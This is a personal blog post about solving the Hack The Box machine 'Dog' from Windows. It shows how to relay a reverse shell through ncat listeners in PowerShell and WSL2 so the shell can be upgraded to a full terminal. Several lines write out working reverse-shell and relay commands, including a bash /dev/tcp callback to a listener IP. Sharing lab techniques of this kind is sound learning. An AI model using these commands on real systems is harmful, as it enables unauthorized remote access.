


Today I decide to try to solve an active HTB box, [Dog](https://labs.hackthebox.com/achievement/machine/2222507/651), and FINALLY solved it. Whew, what a PAIN for my current skill level 💀 although I think the biggest pain I faced is to create a reverse shell that can be upgraded to do su stuffs, because I’m working on that machine in Windows. I’m currently not in Linux because I have to write my thesis in Microsoft Word and had to tidy my citations and formatting and stuffs and we know it’s not very convenient to in Linux, so I just had to bear with it.

Though I think the most important thing to share currently is how to create reverse shell that can be upgraded by using WSL and PowerShell, so I don’t have to go through the same pain again (or at least the reverse shell one) if I have to solve it in Windows.

So, WSL2 has funny default network configuration (NAT) that made us cannot use the listener `nc -lvnp` 4444 in WSL and expect our classic reverse shell, like, `bash -i >& /dev/tcp/<ip_address>/9001 0>&1`, to work. One method to make the reverse shell works properly is to just use `ncat -lvnp 4444` in PowerShell (install ncat first if you don’t have, obviously) and use the IP in ipconfig for the reverse shell.

Reverse shell in PowerShell works as expected, but it doesn’t work well if you have to input password, like when we run `su <username>`, as the shell should have tty support. The classic `python3 -c 'import pty; pty.spawn("/bin/bash")'` followed by CTRL+Z and `fg` also not working, as the problem actually lies in PowerShell… 😦 so the workaround for this problem is to use both PowerShell and WSL.

Then in we view our IP address first in PowerShell with ipconfig

In my screenshot, the IP address is `10.10.14.162`. And now let’s see our IP address in WSL with `ip a`.

Our IP address is the one in `eth0`, it is `172.25.238.132`.

First, we create our listener in WSL using our classic `ncat -lvnp 9001`, or replace the number as you like. For me I either use 4444 or 9001 for convenience.

Then let’s create our second listener in PowerShell using `ncat.exe -lvp 9001 --sh-exec "ncat.exe 172.25.238.132 9001`, or in general format,

`ncat -lvp 9001 --sh-exec "ncat.exe <wsl_ip> 9001`

Now we can send our reverse shell to the target, using our classic `bash -i >& /dev/tcp/10.10.14.162/9001 0>&1`, or in general format,

`bash -i >& /dev/tcp/<ip_address>/9001 0>&1`

That’s it! Now you can interact with the shell in WSL and upgrade the shell as you like.

I guess it should be obvious if I has deep networking knowledge, but alas, I’m a noob 💀

Guess I have to revisit my computer networks class materials if I want to continue my cybersecurity journey, then.

---

**2026 UPDATE**: Wow, newer WSL can mirror host's network, check it [here](https://learn.microsoft.com/en-us/windows/wsl/networking)!
